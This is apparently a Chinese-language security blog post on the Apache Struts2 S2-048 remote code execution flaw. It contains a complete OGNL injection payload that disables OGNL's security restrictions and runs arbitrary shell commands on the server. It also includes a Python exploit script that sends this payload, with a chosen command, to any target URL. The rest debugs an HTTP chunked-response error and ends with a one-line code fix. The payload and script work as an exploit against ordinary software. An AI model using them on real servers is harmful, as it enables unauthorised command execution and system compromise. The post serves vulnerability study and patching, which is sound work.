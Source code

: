 ```yaml
---
layout: post
title: "Struts2-048"
categories: web java struts s2-048
tags: web struts s2-048 vuls
---
```




# 问题jar包

struts2-struts1-plugin.jar



# 漏洞验证

在struts2官方demo中，`integration->struts 1 integration`，gangster字段输入`${1+2}`参数，如果存在漏洞，则带入执行，返回`3`；如果不存在漏洞，则正常返回。



# poc利用

struts2官方demo利用poc如下[^1]：

```xml
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd=#parameters.cmd[0]).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

访问gangster页面，抓包提交内容（/integration/saveGangster.action），将`name`字段值改为上述urlencode(poc)，加一个`cmd`字段，填写shell cmd即可。



# 漏洞利用脚本

因为POC并不复杂，所以想基于struts2官方demo，利用上述POC做一个自动化的脚本，脚本本身并不复杂，但是执行时出现问题。

自编脚本如下：

```python
import argparse
import requests
import httplib

def exp(url,cmd):
    #httplib.HTTPConnection._http_vsn = 10
    #httplib.HTTPConnection._http_vsn_str = 'HTTP/1.0'
    params={
       "name":"%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd=#parameters.cmd[0]).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}",
        'age':'1',
        '__checkbox_bustedBefore':'true',
        'description':'3',
        'cmd':cmd
        }
    return requests.post(url,headers={'Accept-Encoding': 'gzip, deflate'},data=params).text

if __name__=='__main__':
    parser=argparse.ArgumentParser()
    parser.add_argument('url',help='target url')
    parser.add_argument('cmd',help='cmd shell to be executed')
    args=parser.parse_args()
    print exp(args.url,args.cmd)
```

出现问题如下：

```python
Traceback (most recent call last):
  File "d:\security\mynote\web\java\struts\s2-048\s2-048-poc.py", line 22, in <module>
    print exp('http://192.168.6.141:8080/integration/saveGangster.action','whoami')
  File "d:\security\mynote\web\java\struts\s2-048\s2-048-poc.py", line 15, in exp
    return requests.post(url,headers={'Accept-Encoding': 'gzip, deflate'},data=params).text
  File "D:\Python\Python27\lib\site-packages\requests\api.py", line 109, in post
    return request('post', url, data=data, json=json, **kwargs)
  File "D:\Python\Python27\lib\site-packages\requests\api.py", line 50, in request
    response = session.request(method=method, url=url, **kwargs)
  File "D:\Python\Python27\lib\site-packages\requests\sessions.py", line 465, in request
    resp = self.send(prep, **send_kwargs)
  File "D:\Python\Python27\lib\site-packages\requests\sessions.py", line 605, in send
    r.content
  File "D:\Python\Python27\lib\site-packages\requests\models.py", line 750, in content
    self._content = bytes().join(self.iter_content(CONTENT_CHUNK_SIZE)) or bytes()
  File "D:\Python\Python27\lib\site-packages\requests\models.py", line 673, in generate
    for chunk in self.raw.stream(chunk_size, decode_content=True):
  File "D:\Python\Python27\lib\site-packages\requests\packages\urllib3\response.py", line 303, in stream
    for line in self.read_chunked(amt, decode_content=decode_content):
  File "D:\Python\Python27\lib\site-packages\requests\packages\urllib3\response.py", line 447, in read_chunked
    self._update_chunk_length()
  File "D:\Python\Python27\lib\site-packages\requests\packages\urllib3\response.py", line 401, in _update_chunk_length
    raise httplib.IncompleteRead(line)
IncompleteRead: IncompleteRead(0 bytes read)
```

### 问题分析

通过简单的研究，发现该httplib.IncompleteRead和http chunked response有关。[chunked encoding][1,2]是http协议常用参数，表示http服务器响应报文长度不可预测，而使用分块技术传输数据。

通过抓包，发现request是一个正常的post包，而返回的确是一个chunked response，chunked response不会自动被wireshark解析。

![s2-048-1]({{ site.url }}/assets/img/web/java/struts/s2-048/s2-048-1.png)

因此，问题可以定位，是requests依赖的[httplib][3]对chunked response解析存在问题，而chunked response格式是由服务端决定的。仔细查看chunked response包可以发现，最后并没有一个terminating chunk（30\0d\0a\\0d\0a），因此这是一个不正常的chunked response，httplib无法正常解析。

### 解决办法

解决思路可以分为[两种][3]，第一种就是不使用http chunk协议，而使用低版本的http协议；第二种就是针对抛出的异常进行处理。

正如上文分析，引起http chunk incompleteread异常的原因是因为chunked response格式不符合规范，理应通过修正服务端来解决问题，不得已情况下才考虑通过client端处理异常。

#### http 1.0

http chunk是http 1.1支持的特性，强制使用http 1.0可以避免chunk，方法即上文代码中注释的两行。

#### 针对异常的处理

[stackoverflow][4]上给出了一系列针对异常处理的解决办法，这里提出一种对httplib本身的思考。

httplib的问题可定位到如下位置：

```python
    def _update_chunk_length(self):
        # First, we'll figure out length of a chunk and then
        # we'll try to read it from socket.
        if self.chunk_left is not None:
            return
        line = self._fp.fp.readline()
        line = line.split(b';', 1)[0]
        #if line='': line='0'
        try:
            self.chunk_left = int(line, 16)
        except ValueError:
            # Invalid chunked protocol response, abort.
            self.close()
            raise httplib.IncompleteRead(line)
```

在执行`line`转换为int类型时，因为没有terminating chunk，所以第二次（terminating chunk轮）line的值为空字符串，类型转换时自然抛出异常。手动转换下，也可以解决该问题。

# 修复

`org.apache.struts2.showcase.intergration.SaveGangsterAction.java`

39行，改为

```java
messages.add("msg", new ActionMessage("struts1.gangsterAdded", gform.getName()));
```



[1]: http://blog.csdn.net/whatday/article/details/7571451	"a blog for chunked encoding"
[2]: https://en.wikipedia.org/wiki/Chunked_transfer_encoding	"wiki for http chunk"
[3]: http://blog.csdn.net/wangzuxi/article/details/40377467	"blog for analyse incompleteread"
[4]: https://stackoverflow.com/questions/14442222/how-to-handle-incompleteread-in-python	"stackoverflow for incompleteread"



[^1]: 网上还有其他POC（如freebuf），主体内容基本相似，均可以使用。

